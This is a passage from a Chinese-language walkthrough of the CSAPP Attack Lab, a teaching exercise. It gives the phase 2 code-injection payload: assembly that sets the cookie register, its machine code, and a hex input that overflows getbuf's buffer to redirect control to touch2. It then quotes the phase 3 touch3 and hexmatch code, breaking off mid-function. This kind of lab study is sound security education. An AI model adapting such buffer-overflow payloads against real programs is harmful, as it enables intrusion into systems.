 将`solution2.s`改成下面这样:
```
mov $0x59b997fa,%rdi //将cookie赋给edi
ret
```

按照之前的流程得到机器码为：
```
solution2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	c3                   	retq   
```

把 **solution2** 改成下面这样：
```
48 c7 c7 fa 97 b9 59 c3 09 10 11 12 13 14 15 16 17 18 19 20
01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16 17 18 19 20
78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
```

上面的solution2方法通过在最后面加上touch2函数的地址来将控制权转到touch2函数。原因是在getbuf函数ret时rsp指向的是第三行行首的缓冲区首地址，ret之后（ret指令会进行pop）rsp刚好指向后方的touch2函数地址，在将cookie送到rdi寄存器后再次ret就能转到touch2函数了。

![csapp_lab3_11](/static/csapp_lab3_11.png)

## level3

先看一下advice：

Phase 3 also involves a code injection attack, but passing a string as argument.  
Within the file ctarget there is code for functions hexmatch and touch3 having the following C representations:  
```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /*Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!:You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire:You called touch3(\"%s\")\n", sval);
```